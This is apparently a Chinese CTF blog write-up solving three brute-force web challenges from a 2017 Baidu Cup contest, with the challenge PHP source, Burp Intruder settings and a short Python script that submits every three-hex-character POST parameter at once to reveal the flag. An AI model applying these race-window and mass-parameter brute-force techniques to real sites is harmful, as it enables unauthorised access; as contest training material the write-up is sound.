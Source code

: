 ```yaml
---
title: 百度杯2017年春秋欢乐赛Web
date: 2018-02-24 00:00:00
categories:
- CTF/Web
tags: 春秋欢乐赛
--- 
```


三道超级简单的爆破题

## 时间


```php
<?php 
header("content-type:text/html;charset=utf-8");
'天下武功唯快不破';
setcookie('token','hello');
show_source(__FILE__);
if ($_COOKIE['token']=='hello'){
  $txt = file_get_contents('flag.php');
  $filename = 'u/'.md5(mt_rand(1,1000)).'.txt';
  file_put_contents($filename,$txt);
  sleep(10);
  unlink($filename);
}
```

每次按照要求的cookie去请求index.php都会有十秒的时间去访问包含flag的文件，所以开两个burp爆破即可。

- 第一个burp爆破用Sniper模式随便加个GET的参数去带`cookie：token=hello`去访问index.php，爆破间隔十秒

- 第二个burp爆破用Sniper模式去访问`u/$payload$.txt`，payload采用md5的encode

## 象棋

查看源码有个：`js/[abcmlyx]{2}ctf[0-9]{3}.js"`很可疑，burp爆破之，爆破策略：

- 模式选择`Cluster bomb`，设置三个payload位置：`js/$p1$$p2$ctf$p3$`
- p1: simple list [abcmlyx]
- p2: simple list [abcmlyx]
- p2: number 100-999 step 1

## 攻击

```php

<?php
header("content-type:text/html;charset=utf-8");
show_source(__FILE__);
echo '<pre>';
include('u/ip.php');
include('flag.php');
if (in_array($_SERVER['REMOTE_ADDR'],$ip)){
  die("您的ip已进入系统黑名单");
}
var_dump($ip);

if ($_POST[substr($flag,5,3)]=='attack'){
  echo $flag;
}else if (count($_POST)>0){
  $ip = '$ip[]="'.$_SERVER['REMOTE_ADDR'].'";'.PHP_EOL; 
  file_put_contents('u/ip.php',$ip,FILE_APPEND);
}


echo '</pre>';
 array(0) {
}

```

- `$_SERVER['REMOTE_ADDR']`不可伪造，那么一个ip真的就只有一次机会了
- i春秋的的flag格式是flag{小写MD5}，所以`substr($flag,5,3)`是[0-9a-f]{3}，16的三次方种可能
- 爆破次数只有一次怎么办？是不是被平日爆破的思路限制了？
- 没有限制post参数的个数，那么就生成所有的参数名字，提交一次就好了

python脚本如下：

```python
#!/usr/bin/python
# coding=utf-8

import requests

s = '1234567890abcdef'
data = {}

for i in s:
    for j in s:
        for k in s:
            data[i+j+k] = 'attack'

url = 'http://781e5ea171c945ed997e895070a5a79490205fbc7d574566.ctf.game/'
result = requests.post(url, data=data)

print result.text

```

